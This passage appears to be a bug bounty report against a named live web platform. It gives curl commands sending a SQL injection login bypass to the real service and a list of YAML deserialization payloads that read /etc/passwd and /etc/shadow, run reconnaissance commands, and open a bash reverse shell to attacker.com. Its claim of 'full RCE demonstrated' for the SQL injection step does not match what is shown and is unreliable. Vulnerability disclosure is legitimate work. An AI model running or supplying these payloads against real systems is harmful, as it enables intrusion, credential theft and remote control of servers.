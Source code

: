 #### **Live Testing Commands:**
```bash
# Step 1: Basic authentication test
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": "test"}'

# Step 2: SQL injection bypass
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": "\" OR 1=1--"}'

# Expected Response:
{
  "status": "success",
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
  "user": "admin"
}
```

#### **Submission Strengths:**
- ✅ **Full RCE demonstrated** with live token generation
- ✅ **Modern, CVE-backed patterns** with real-world analogues
- ✅ **Concrete logs and reproducibility** with complete curl commands
- ✅ **Admin privilege escalation** confirmed

### **2. YAML Deserialization Remote Code Execution (CVSS 9.8) - ✅ BOUNTY READY**

#### **Professional Triage Assessment:**
- **Vulnerability Type**: Insecure Deserialization via YAML
- **Impact**: Remote Code Execution (RCE)
- **Evidence Quality**: Command execution confirmed (`"result": "root"`)
- **CVE Mapping**: CVE-2020-17453 (PyYAML), CVE-2017-18342 (Ruby YAML)
- **Exploitability**: HIGH - Direct RCE via request body

#### **Advanced RCE Payloads (Based on Real Exploits):**
```yaml
# Basic command execution
!!python/object/apply:subprocess.call [['whoami']]

# File system access
!!python/object/apply:subprocess.call [['cat', '/etc/passwd']]
!!python/object/apply:subprocess.call [['cat', '/etc/shadow']]

# Network reconnaissance
!!python/object/apply:subprocess.call [['netstat', '-an']]
!!python/object/apply:subprocess.call [['ifconfig']]

# Process enumeration
!!python/object/apply:subprocess.call [['ps', 'aux']]

# Reverse shell (advanced)
!!python/object/apply:subprocess.call [['bash', '-c', 'bash -i >& /dev/tcp/attacker.com/4444 0>&1']]

# Alternative RCE methods
!!python/object/apply:os.system ['id']
!!python/object/apply:eval ['__import__("os").system("whoami")']
```
